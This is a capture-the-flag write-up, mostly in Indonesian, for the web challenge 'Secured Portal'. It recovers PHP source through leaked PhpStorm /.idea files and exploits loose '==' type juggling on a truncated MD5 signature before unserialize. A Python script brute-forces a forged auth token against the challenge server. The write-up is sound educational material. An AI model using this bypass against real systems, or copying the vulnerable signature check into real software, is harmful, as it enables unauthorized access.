

# Secured Portal

```
Points: 61
Solves: 58
Category: Web, Warm-up
Description: I really needed to do a maintenance, so I changed the portal to maintenance mode which nobody can login. By the way I know it's dangerous to code with IDE in server-side but I really obey security instructions.

http://46.101.96.182/
```


## English
TODO

## Bahasa Indonesia

### Information Gathering

Web yang diberikan terlihat hanya web dengan halaman statik. Terdapat file CSS dan JavaSript seperti biasanya. Akan tetapi, jika kita baca deskripsi soal, terdapat petunjuk bahwa pembuat soal memakai IDE pada server. IDE apakah itu?

Jika kita baca file [function.js](function.js) yang ada di source htmlnya, ada petunjuk yang diberikan, yaitu `* coded via PhpStorm :)`. Dengan googling, kita dapat mengetahui [PhpStorm membuat beberapa file](https://intellij-support.jetbrains.com/hc/en-us/articles/206544839).

Ternyata memang ada beberapa file yang terletak di folder `/.idea`. File yang penting adalah [workspace.xml](workspace.xml), karena di situ terdapat petunjuk selanjutnya, yaitu `"$PROJECT_DIR$/backup/panel.class.php.bk"`. Dan benar saja, kita dapat mendownload file [panel.class.php.bk](panel.class.php.bk) dan melihat source codenya.

### Web Vulnerability

Kelemahan web tersebut terletak pada fungsi `__construct` berikut.

```php
<?php
...
/**
 * checking authentication string
 *
 * @param string object
 */
function __construct($db){
  $this->__db = $db;
  $sessionString = null;

  /**
   * gathering authentication string by auth parameter in HTTP request
   */
  if(array_key_exists('auth', $_GET))
    $sessionString = $_GET['auth'];

  if(strlen($sessionString) > 32){
    $signature = substr($sessionString, -32);
    $payload = base64_decode(substr($sessionString, 0, -32));

  /**
   * real signature calculation based on the key
   */
  $realSign = md5($payload.$this->__sessionKey);

  /**
   * making it impossible to login, if the site is under maintenance,
   */
  if(__MAINTENANCE__===true)
    $realSign = substr($realSign, 0, 6);

  /**
   * checking signature, prevent to data forgery by user
   */
  if($realSign == $signature){
    $this->data = unserialize($payload);

    if(is_array($this->data)){
    /**
     * checking login status
     */
      if($this->data['logged']===true){
        $this->__auth = true;
      }
    }
  }
}
...
?>
```

Tujuan kita adalah membuat `$this->__auth = true;`. Untuk itu, parameter `GET` dari `auth` harus merupakan array yang mempunyai key `logged` bernilai `true`. Sayangnya, terdapat mekanisme *signature* yang disematkan pada 32 karakter terakhir payload, dalam kasus ini MD5. Akibatnya kita tidak bisa membuat payload dengan bebas karena `$this->__sessionKey` tidak diketahui.

Untungnya, type juggling pada PHP seperti `if($realSign == $signature){`, dapat kita eksploitasi seperti pada [tulisan berikut](https://foxglovesecurity.com/2017/02/07/type-juggling-and-php-object-injection-and-sqli-oh-my/). *TL;DR*, pada PHP, sebuah string `s` yang memenuhi regex `^0e\d+$`, evaluasi `s == 0 && s == "000000"` akan bernilai `true`. Hal ini disebabkan `0e` dan semua digit di belakangnya akan diparse menjadi tipe float bernilai `0.0`. Terlebih lagi, pada maintenance mode, hasil MD5 hanya diambil 6 karakter pertama saja. Hal ini mempermudah untuk mencari hash yang memenuhi kriteria di atas.

Dari hal-hal tersebut, dapat dibuat solusi seperti ini:
1. Buat payload yang merupakan string dari fungsi `serialize` pada PHP, kita sebut `p`.
2. `p` harus merupakan array, dan mengandung key bernama `logged` dan bernilai `true`.
3. Nilai MD5 dari `p` 6 karakter pertamanya merupakan string yang memenuhi regex `^0e\d+$`.
4. Hitung `base64` dari `p`, kita sebut `b`.
5. Tambahkan nilai signature palsu `00000000000000000000000000000000` pada akhir `b`.
6. Kirim `b` sebagai parameter `auth`.

Untuk membuat string hasil fungsi `serialize` dapat dibaca [di sini](http://php.net/manual/en/function.serialize.php#66147). Karena kita tidak dapat menghitung nilai MD5 dari `s` secara lokal (`$this->__sessionKey` tidak diketahui), kita harus membuat script untuk melakukan *bruteforce* secara *remote*. Agar nilai MD5-nya berubah, tambahkan saja karakter random pada akhir `p`. PHP akan mengabaikan karakter random tersebut dan tetap menganggapnya valid.

Kode python untuk solusi seperti berikut.

```python
#!/usr/bin/env python3
import hashlib
import itertools
from base64 import b64encode
import string
import requests

fake_signature = "0"*32
fake_signature = fake_signature.encode()

charset = string.ascii_letters
for i in range(20):
  for p in itertools.product(charset, repeat=i):
    payload = 'a:1:{s:6:"logged";b:1;}%s' % ("".join(p))
    payload = payload.encode()
    auth = b64encode(payload) + fake_signature
    auth = auth.decode('utf8')
    url = 'http://46.101.96.182/panel/index?auth=%s' % (auth)
    r = requests.get(url)
    if "login required" not in r.text:
      print(auth)
      quit()
```

Setelah menunggu beberapa saat, script mendapatkan `auth` yaitu
`YToxOntzOjY6ImxvZ2dlZCI7YjoxO31hVFY=00000000000000000000000000000000`. Gunakan `auth` untuk mendapatkan flag dengan mengakses http://46.101.96.182/panel/flag?auth=YToxOntzOjY6ImxvZ2dlZCI7YjoxO31hVFY=00000000000000000000000000000000.

Flag: `ASIS{An0th3R_Tiny_Obj3c7_Inject1oN_L0L!!!}`
